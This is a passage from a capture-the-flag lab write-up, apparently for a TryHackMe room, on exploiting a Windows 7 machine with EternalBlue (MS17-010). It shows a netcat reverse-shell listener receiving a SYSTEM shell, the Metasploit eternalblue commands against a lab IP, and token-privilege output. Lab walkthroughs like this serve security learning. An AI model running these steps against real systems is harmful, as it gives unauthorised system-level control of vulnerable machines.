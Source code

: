 ```bash
┌──(kali㉿kali)-[~/thm/blue]
└─$ rlwrap -r -f . nc -nlvp 1111
listening on [any] 1111 ...
connect to [10.11.19.145] from (UNKNOWN) [10.10.29.178] 49170
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

---

### Exploit via metasploit

> `exploit/windows/smb/ms17_010_psexec` will not work!

```bash
sudo msfconsole
search eternal blue
use exploit/windows/smb/ms17_010_eternalblue
set lhost tun0
set rhosts 10.10.12.45
run
```

It is normal to fail several times

Waited for `3+` minutes to succeed

![](/assets/obsidian/29b8e3892ab0fb8d6723796b94467d02.png)


## Privilege Escalation
---

### Check Token Privileges

I have few privilege tokens by default

```bash
C:\ProgramData>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeTcbPrivilege                Act as part of the operating system       Enabled
SeAuditPrivilege              Generate security audits                  Enabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled

```